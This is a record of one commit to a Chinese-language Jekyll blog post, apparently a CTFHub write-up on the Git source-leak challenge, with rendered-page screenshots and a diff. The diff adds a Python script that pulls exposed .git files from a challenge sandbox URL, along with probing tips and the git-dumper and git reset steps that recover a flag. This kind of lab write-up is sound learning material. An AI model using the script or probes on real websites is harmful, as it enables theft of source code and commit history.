

Before and after one commit to gysbfff/gysbfff.github.io, a Jekyll site: the page built from _posts/2026-09-25-ctfhub-log.md, in a window 1280 px wide. Shown: the whole page at 81% size, without its empty margins (158-1121 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 1401 px from its top, so only the background shows below that.

Commit message:
Update 2026-09-25-ctfhub-log.md

```diff
--- a/_posts/2026-09-25-ctfhub-log.md
+++ b/_posts/2026-09-25-ctfhub-log.md
@@ -14,14 +14,49 @@
 网站禁止直接访问/.git/目录（返回403），但可以访问/.git/HEAD，确认存在Git源码泄露。
 
 ## 解题步骤
-1. 浏览器访问/.git/HEAD，出现下载任务。
-2. 下载文件后选择全部解压
-3. 点击文件夹进去后文件空白处shift+鼠标右键打开powershell执行pip install git-dumper直接pip安装
-4. 安装完成后执行git"靶场地址/.git/"./git_out
-5. 运行完后打开git_out文件夹
-6. Shift+右键空白处选择Git Bash，输入git log
-7. 复制添加flag的提交的commit号'git reset --hard 粘贴commit编号
-8. 打开文件夹出现的flag.php,拿到flag
+1. 浏览器访问/.git/HEAD，出现下载任务,判断为Git泄露
+2. 借助工具得出GitHack脚本
+   #!/usr/bin/env python3
+import os
+import requests
+from urllib.parse import urljoin
+
+base_url = "http://challenge-8f29b53b95ed9641.sandbox.ctfhub.com:10000/.git/"
+output_dir = "git_dump"
+
+git_files = [
+    "HEAD", "config", "description", "index",
+    "COMMIT_EDITMSG", "logs/HEAD",
+    "objects/info/packs", "refs/heads/master"
+]
+
+headers={"User-Agent":"Mozilla/5.0"}
+
+def save_file(remote_path):
+    full_url = urljoin(base_url, remote_path)
+    local_path = os.path.join(output_dir, remote_path)
+    os.makedirs(os.path.dirname(local_path), exist_ok=True)
+    try:
+        r = requests.get(full_url, headers=headers, timeout=8)
+        if r.status_code == 200:
+            with open(local_path,"wb") as f:
+                f.write(r.content)
+            print(f"[+]下载成功 {remote_path}")
+    except Exception:
+        pass
+
+if __name__ == "__main__":
+    print("开始下载git泄露文件")
+    for f in git_files:
+        save_file(f)
+    print("下载完成！进入git_dump文件夹，执行 git log、git reset --hard")
+3. 运行GitHack脚本
+4. 点击文件夹进去后文件空白处shift+鼠标右键打开powershell执行pip install git-dumper直接pip安装
+5. 安装完成后执行git"靶场地址/.git/"./git_out
+6. 运行完后打开git_out文件夹
+7. Shift+右键空白处选择Git Bash，输入git log
+8. 复制添加flag的提交的commit号'git reset --hard 粘贴commit编号
+9. 打开文件夹出现的flag.php,拿到flag
 
 ## 踩坑指南
 1. dvcs‑ripper为Perl脚本，**无法pip install安装**，Windows环境不友好，不要使用pip安装它。
@@ -33,10 +68,8 @@
 1. Git源码泄露：网站把.git文件夹部署到web目录，攻击者下载仓库拿到源码与历史提交。
 2. git log：查看全部版本提交日志。
 3. git reset --hard 哈希值：强制回滚到指定版本，恢复已经删除的文件。
-4. ### 如何挑选正确commit
-git log按时间倒序展示提交，顶部为最新版本：
--`remove flag`：最新提交，执行删除flag操作，此时文件不存在。
-- `add flag`：前一次提交，flag文件被新增，回滚到此版本恢复flag.php。
-- init：仓库初始化，不存在flag文件。
-5. 当前大量开发人员使用git进行版本控制，对站点自动部署。如果配置不当,可能会将.git文件夹直接部署到线上环境。这就引起了git泄露漏洞。
-   克尝试使用BugScanTeam的GitHack
+4. ### 判断Git源码泄露
+   -检测payload：在url后拼接`/.git/HEAD`，若页面输出`ref: refs/heads/master`，证明存在.git源码泄露。
+   -注意：访问`/.git/`目录返回403 Forbidden，只是服务器关闭目录浏览，**不能排除泄露**，只要内部文件可访问即可被利用。
+   -区分：git clone失败不等于没有泄露；部分Web环境不支持Git智能HTTP握手，此时使用git‑dumper下载仓库源码。
+   -其他辅助检测点：`/.git/config`、`/.git/index`，能够访问则确认泄露。
```
